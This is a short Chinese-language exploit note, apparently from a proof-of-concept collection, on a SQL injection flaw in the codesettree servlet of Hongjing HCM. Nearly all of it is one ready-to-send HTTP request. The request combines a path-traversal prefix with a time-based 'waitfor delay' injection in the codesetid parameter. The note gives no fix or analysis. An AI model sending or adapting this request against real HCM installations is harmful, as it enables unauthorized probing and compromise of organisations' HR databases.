 ## 宏景HCM-codesettree接口存在SQL注入漏洞


## poc
```
GET /templates/attestation/../../servlet/codesettree?flag=3&codesetid=111';waitfor+delay+'0:0:2'--+&parentid=-1&fromflag=" HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64; rv:50.0)
Accept: */*
Accept-Encoding: gzip, deflate
Connection: close
```

